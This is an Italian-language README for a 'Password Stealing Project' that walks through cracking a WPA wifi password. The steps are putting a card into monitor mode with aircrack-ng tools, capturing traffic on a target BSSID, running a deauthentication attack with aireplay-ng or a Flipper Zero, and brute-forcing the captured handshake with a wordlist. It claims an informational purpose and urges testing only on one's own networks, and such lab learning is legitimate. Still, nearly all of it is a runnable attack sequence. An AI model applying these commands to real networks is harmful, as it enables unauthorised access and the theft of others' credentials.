

# $${\color{white}Password \space \color{red}Stealing \space \color{white}Project}$$
Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

## $${\color{green}Listening \space wifi}$$

Per iniziare ci servirà un OS Linux con scaricato il tool [Aircrack-ng](https://www.aircrack-ng.org/). Possibilmente usate come distro Kali in quanto preinstallato.
Iniziamo aprendo un terminale e seguendo i seguenti comandi: <br>
```bash
┌(root💀kali)-[~]
│
┕$ iwconfig
```
<p align="center">
  
</p>
Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo airomon-ng start wlan
```
<p align="center">
  
</p>
Successivamente per visualizzare tutte le reti disponibili: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng wlan0mon
```
<br>
<p align="center">
  
</p>
Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng -canale -w NomeFile -d BSSID wlan0mon
```
In questo modo stiamo verificando solo la rete in questione.
## $${\color{green}Deauth \space \color{red} Attack}$$
Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...).
Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco. <br> <br>
Deauth attack con Flipper Zero:
<p align="center">
  
</p>
Attacco deauth integrato tramite il comando: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo aireplay-ng --deauth 0 -a BSSID -c STATION wlan0mon
```
<p align="center">
  
</p>

## $${\color{white}WPA \space \color{green}handshake \space \color{red}decrypt}$$

Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione: <br>

```bash
┌(root💀kali)-[~]
│
┕$ sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```
<p align="center">
  
</p>
Il tempo di decriptazione può variare in base alla difficoltà della password e dalla lista che viene usata.

## $${\color{orange}Tools}$$
[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32). <br>
Deauther fai da te [Marauder](https://github.com/justcallmekoko/ESP32Marauder) sempre con base ESP32. <br>
Tool usato per condividere lo schermo in rete locale [Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)
